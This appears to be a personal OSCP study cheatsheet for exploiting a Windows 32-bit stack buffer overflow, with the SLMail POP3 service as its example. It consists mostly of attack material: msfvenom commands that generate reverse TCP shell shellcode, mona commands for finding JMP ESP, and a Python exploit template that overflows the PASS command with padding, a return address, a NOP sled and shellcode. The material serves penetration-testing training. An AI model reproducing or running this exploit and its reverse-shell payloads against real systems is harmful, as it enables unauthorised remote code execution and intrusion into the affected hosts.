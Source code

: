 ```yaml
---
title: Buffer Overflow
date: 2020-06-26 18:32:04
tags: [oscp, cheatsheet]
---
```


# Windows 32-Bit Buffer Overflow
SLMail Example

Practice these:
- [ ] SLMail
- [ ] Brainpan

## Steps
- [ ] Find offset
- [ ] Ensure control over EIP at found offset (4 B's)
- [ ] Find bad characters
- [ ] Find return address (JMP ESP)
- [ ] Ensure EIP overwrite (Breakpoint - F2 - at return address )
- [ ] Ensure buffer length for shellcode is good enough
- [ ] Get a shell

## Commands
``` bash
/usr/bin/msf-pattern_create -l 
/usr/bin/msf-pattern_offset -q

# avoid pointers with bad chars
# !mona jmp -r esp -cpb "\x00\x0a\x0d"
# try selecting an application specific DLL instead of OS
!mona jmp -r esp -cpb '\x00'

# Do	NOT	add an encoder by yourself, let msfvenom decide that
# [Recommended, reasons at the bottom] Stageless - use nc to connect to this shell 
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=443 -b '\x00' -f python --var-name shellcode EXITFUNC=thread

# Do	NOT	add an encoder by yourself, let msfvenom decide that
# Staged - use multi/handler to connect to this shell
msfvenom -p windows/shell/reverse_tcp LHOST= LPORT=443 -b '\x00' -f python --var-name shellcode EXITFUNC=thread
```

## cheatsheet.py
``` python
import socket
import struct
import sys

rhost = "192.168."
rport =

size = 3200

cmd = "PASS "

eip_offset = 

# Only select program DLL. Do  NOT  select OS DLL
ptr_jmp_esp = # JMP ESP - xxxx.dll

# Bad characters identified: \x00
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

# msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=443 -b '\x00' -f python --var-name shellcode EXITFUNC=thread
# Remove the "b" prefix from each line
shellcode = ""

payload = ""
payload += cmd
payload += "A"*eip_offset # padding
payload += struct.pack("<I",ptr_jmp_esp) # converting address to little endian
payload += "\x90"*16 # nopsled
payload += shellcode
payload += "D"*(size - len(payload)) # trialing padding
payload += "\r\n"

# Put a while loop to fuzz
# while True:
try:
	print "Sending evil payload..."
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect((rhost,rport))
	s.recv(1024)
	s.send("USER test\r\n")
	s.recv(1024)
	s.send(payload)
	s.recv(1024)
	s.send("QUIT")
	s.close()
    # Fuzzing increment
	#payload += "A"
except:
	print "Oops! Something went wrong!"
	#print "Fuzzing crashed at %s bytes" % len(payload)
	sys.exit()
```


#### Why stageless
- Less the number of exploitation steps, the better
- More control over the shell execution process
- The stager that gets dropped in the staged shell, could be blocked or unable to execute for plethora of reasons unknown to you
	- It's more of a Metasploit thing, which could be one of the reasons it may get blocked 

#### Why staged
- Tried increasing the payload buffer but not enough space to fit a stageless shellcode
